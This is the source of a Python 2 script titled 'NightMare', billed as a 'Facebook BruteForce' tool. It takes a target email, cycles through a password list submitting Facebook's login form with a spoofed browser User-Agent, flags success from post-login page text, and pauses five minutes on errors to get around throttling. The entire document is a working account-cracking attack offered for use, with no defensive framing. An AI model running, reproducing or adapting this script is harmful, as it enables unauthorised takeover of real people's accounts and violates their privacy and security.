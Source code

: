 # NightMare
import time
import sys

if sys.version_info[0] !=2: 
	print('''--------------------------------------
	REQUIRED PYTHON 2.x
	use: python fb2.py
--------------------------------------
			''')
	sys.exit()

post_url='https://www.facebook.com/login.php'
headers = {
	'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36',
}

try:
	import mechanize
	import urllib2
	browser = mechanize.Browser()
	browser.addheaders = [('User-Agent',headers['User-Agent'])]
	browser.set_handle_robots(False)
except:
	print('\n\tPlease install mechanize.\n')
	sys.exit()

print('\n---------- Welcome To Facebook BruteForce ----------\n')
file=open('passwords.txt','r')

email=str(raw_input('Enter Email/Username : ').strip())

print "\nTarget Email ID : ",email
print "\nTrying Passwords from list ..."

i=0
while file:
	passw=file.readline().strip()
	i+=1
	if len(passw) < 6:
		continue
	print str(i) +" : ",passw
	response = browser.open(post_url)
	try:
		if response.code == 200:
			browser.select_form(nr=0)
			browser.form['email'] = email
			browser.form['pass'] = passw
			response = browser.submit()
			response_data = response.read()
			if 'Find Friends' in response_data or 'Two-factor authentication' in response_data or 'security code' in response_data:
				print('Your password is : ',passw)
				break
	except:
		print('\nSleeping for time : 5 min\n')
		time.sleep(300)
